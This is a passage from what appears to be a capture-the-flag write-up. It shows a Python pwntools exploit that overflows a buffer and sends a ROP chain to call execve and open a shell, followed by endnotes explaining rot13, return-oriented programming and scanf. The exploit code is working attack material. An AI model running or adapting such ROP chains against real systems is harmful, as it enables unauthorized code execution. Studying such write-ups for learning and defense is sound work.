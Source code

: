 ```python
c.sendline("/"*103+"N")
log.info("Beginning ROP Chain")
log.info("Sending filler for buffer + EBP.")
c.send("A"*128+"B"*8)
c.send(p64(rop_list["poprdi"]))
c.send(p64(rop_list["data"]))
c.send(p64(rop_list["poprax"]))
c.send(rop_list["binsh"])
c.send(p64(rop_list["movrdi"]))
c.send(p64(rop_list["poprax"]))
c.send(p64(59))
c.send(p64(rop_list["pop2ret"]))
c.send(p64(0x0))
c.send(p64(0x0))
c.sendline(p64(rop_list["syscall"]))
log.info("Have fun with your shell!")
c.interactive()

```

----

# Endnotes

<a name="endnote1">[1]</a>: rot13 is a substitution cipher that takes an alphabet and rotates a plaintext entry by 13. Thus, the letter B will transform into the letter O. Generally, this is applied to upper and lower case letters. The custom functionality of the encoding scheme in this problem also applies it to numbers. More information can be found [here](https://en.wikipedia.org/wiki/ROT13)

<a name="endnote2">[2]</a>: Return Oriented Programming (ROP) is a method of exploitation which uses a number of return addresses already present in a program to chain together executable code. The chain is created by a group of gadgets. Gadgets are pieces of intended or unintended code assembly instructions that are executable due to their location inside the code section of the binary. In general, a ROP sequence usually ends with a ```ret```, ```int```, or ```syscall``` instruction in order to perform multiple sequences of instructions or gadgets. More can be found [here](https://www.exploit-db.com/docs/28479.pdf)

<a name="endnote3">[3]</a>: scanf is a scans input via a format string. The format string consists of [directives](http://www.informit.com/articles/article.aspx?p=28790&seqNum=2) that sequence input. The processing fails when no further input is read, a directive fails, or ```scanf()``` returns. A directive fails on white-space characters, characters that don't match the directive, or a sequence that doesn't match the conversion. More information can be found [here](http://linux.die.net/man/3/sscanf)
